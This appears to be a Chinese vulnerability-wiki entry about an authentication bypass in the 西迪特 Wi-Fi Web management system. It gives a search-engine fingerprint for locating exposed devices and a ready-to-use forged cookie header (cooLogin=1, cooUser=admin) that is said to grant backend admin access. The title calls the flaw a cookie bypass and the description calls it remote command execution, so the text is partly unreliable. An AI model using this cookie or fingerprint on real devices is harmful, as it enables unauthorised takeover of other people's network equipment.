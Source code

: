 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特 Wi-Fi Web管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面

![img](../../../.vuepress/public/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a.png)

添加Cookie，即可登录后台

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![img](../../../.vuepress/public/img/1629371805870-5f6a3a10-7c92-481c-97fe-46886dd474b6.png)

